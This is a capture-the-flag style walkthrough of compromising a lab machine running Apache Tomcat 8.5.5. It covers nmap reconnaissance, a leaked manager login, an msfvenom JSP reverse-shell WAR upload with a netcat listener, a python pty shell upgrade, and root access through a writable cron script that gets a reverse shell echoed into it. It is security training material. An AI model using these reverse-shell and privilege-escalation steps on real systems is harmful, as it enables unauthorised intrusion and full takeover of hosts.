#### Running nmap scan.
```
nmap -A -sV -sC -v 10.48.154.119
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 12:38 IST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating Ping Scan at 12:38
Scanning 10.48.154.119 [4 ports]
Completed Ping Scan at 12:38, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:38
Completed Parallel DNS resolution of 1 host. at 12:38, 0.13s elapsed
Initiating SYN Stealth Scan at 12:38
Scanning 10.48.154.119 [1000 ports]
Discovered open port 8080/tcp on 10.48.154.119
Discovered open port 22/tcp on 10.48.154.119
Discovered open port 8009/tcp on 10.48.154.119
Completed SYN Stealth Scan at 12:39, 5.44s elapsed (1000 total ports)
Initiating Service scan at 12:39
Scanning 3 services on 10.48.154.119
Completed Service scan at 12:39, 12.84s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 10.48.154.119
Initiating Traceroute at 12:39
Completed Traceroute at 12:39, 3.01s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:39
Completed Parallel DNS resolution of 2 hosts. at 12:39, 0.19s elapsed
NSE: Script scanning 10.48.154.119.
Initiating NSE at 12:39
Completed NSE at 12:39, 3.83s elapsed
Initiating NSE at 12:39
Completed NSE at 12:39, 0.92s elapsed
Initiating NSE at 12:39
Completed NSE at 12:39, 0.00s elapsed
Nmap scan report for 10.48.154.119
Host is up (0.20s latency).
Not shown: 612 closed tcp ports (reset), 385 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Uptime guess: 212.436 days (since Thu May  1 02:11:46 2025)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   246.87 ms 192.168.128.1
2   ...
3   264.33 ms 10.48.154.119

NSE: Script Post-scanning.
Initiating NSE at 12:39
Completed NSE at 12:39, 0.00s elapsed
Initiating NSE at 12:39
Completed NSE at 12:39, 0.00s elapsed
Initiating NSE at 12:39
Completed NSE at 12:39, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.50 seconds
           Raw packets sent: 1427 (63.574KB) | Rcvd: 642 (26.422KB)
```
#### Open Ports: 22, 8009, 8080
On port 8080, simple apache tomcat is running



#### Directory Fuzzing


/manager is interesting.


Reveals sensitive information when the cancel option is selected.


#### Logging in and Initial Access

The manager panel shows that war files can be uploaded to the target machine. This is a potential way to gain initial access.


#### Using msfvenom
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local machine IP> LPORT=4444 -f war > shell.war
```
#### Upload the file using the webserver GUI


#### start nc -nvlp 4444 before visiting the /shell directory


#### To get interactive shell, we use below payload
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

#### Privilege Escalation After Initial Access
##### Received user flag

##### Now we looked for crontab to find something intersting.


##### The id.sh script is being run with root user privileges as a cronjob.

##### The user tomcat has privileges to write into the file.

##### To escalate the privileges we have two options
##### Method 1: What if we put the content of root.txt in id.sh and check if we can see the flag or not.



##### Method 2: Echo a reverse shell command to execute it with elevated privileges and gain root access to the system.


##### Set up a Netcat listener on the local machine and wait for the cronjob to run the id.sh script as the root user.


